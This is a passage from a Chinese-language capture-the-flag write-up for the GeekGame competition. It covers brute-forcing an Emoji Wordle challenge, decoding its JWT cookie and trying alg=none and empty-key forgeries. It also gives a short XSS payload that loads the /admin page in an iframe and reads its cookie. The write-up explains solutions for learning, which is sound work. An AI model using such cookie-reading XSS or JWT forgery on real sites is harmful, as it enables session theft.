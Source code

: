 ![示意图 2](assets/drawing2.png)


*创造模式下别不小心点到了牌子（本图基于真实事件改编）*


以上工具都可以用 wine 顺利运行。

第三个 flag，由于对红石电路没有任何了解，不搞了。

## Emoji Wordle

flag1 直接爆破；flag2 cookie 丢到 cyberchef 里面 decode jwt。直到第二阶段之后我一直都以为 flag3 是利用 jwt 漏洞，包括设置 alg 为 none、用空密钥签名都试过，最后突然意识到，emoji 就那么多，也是直接爆破就行了，只是爆破时每次请求要携带相同的 session，并且在一分钟内完成。

## 第三新XSS

第一个 flag 套个 /admin 的 iframe 直接读 iframe 里的 cookie 即可，因为 Path 没有任何安全性上的意义。

```html
<iframe src="https://prob99-nxkc2w9v.geekgame.pku.edu.cn/admin" id="a"></iframe>
<script>
setTimeout(() => {document.title=document.getElementById("a").contentDocument.cookie}, 500)
</script>
```
